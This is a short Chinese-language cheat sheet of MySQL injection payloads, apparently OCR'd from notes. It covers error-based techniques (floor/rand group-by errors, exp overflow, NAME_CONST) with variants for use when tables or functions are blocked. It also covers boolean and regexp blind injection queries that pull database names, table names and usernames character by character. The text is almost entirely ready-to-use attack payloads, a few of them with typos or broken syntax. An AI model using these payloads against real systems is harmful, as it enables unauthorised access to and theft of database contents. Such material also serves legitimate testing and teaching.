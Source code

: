 简化
```
select count(*) from information_schema.tables group by concat(version(), floor(rand(0)*2))
```
关键表被禁用
```
select count(*) from (select 1 union select null union
select !1)a group by concat(version(),floor(rand(0)*2))
```
rand 禁用
```
select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)
```

exp
```
select exp(~(select * FROM(SELECT USER())a))
```

mysql重复性
```
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
```
- 布尔注入

```
left(database(),1)>'s'

截取数据库第一位
```

```
ascii(substr((select table_name information_schema.tables where tables_schema =database()limit 0,1),1,1))=101 --+
```
```
substr(a,b,c) 从b位置开始，截取字符串a的c长度
```
```
ascii() 将某个字符转为ascii值
```
```
ascii(substr(select database()),1,1)=98
```
```
ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))>98%23
```
```
mid(a,b,c) 从位置b开始，街区a字符床的c位
```
```
ord()同ascii()，将字符串转为ascii值
```

regexp 正则注入

```
select user() regexp '^[a-z]';

select user() regexp '^ro'

I select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);

```
